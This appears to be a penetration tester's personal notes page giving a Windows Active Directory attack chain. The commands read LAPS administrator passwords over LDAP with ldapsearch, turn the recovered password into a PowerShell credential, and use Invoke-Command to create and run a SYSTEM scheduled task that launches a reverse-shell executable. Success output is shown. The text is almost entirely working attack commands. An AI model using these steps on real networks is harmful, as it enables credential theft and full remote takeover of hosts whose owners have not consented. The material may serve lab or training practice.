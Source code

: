 
![[Pasted image 20220328113745.png]]

```bash - kali
ldapsearch -v -x -D $USER@$HOSTNAME.$DOMAIN -w $PASSWORD -b "DC=$HOSTNAME,DC=$DOMAIN" -h $TARGET "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

```powershell - windows
powershell
```

Use found password from above here.

```powershell - windows
$pw = ConvertTo-SecureString "$PASSWORD" -AsPlainText -Force
```

```powershell - windows
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```

Make sure the path to reverse.exe is correct below.

```powershell - windows
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\Windows\Temp\Tools\reverse64.exe /ru SYSTEM } -Credential $creds
```

![[rlwrap]]

SUCCESS: The scheduled task "shell" has successfully been created.

```powershell - windows
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```

SUCCESS: Attempted to run the scheduled task "shell".
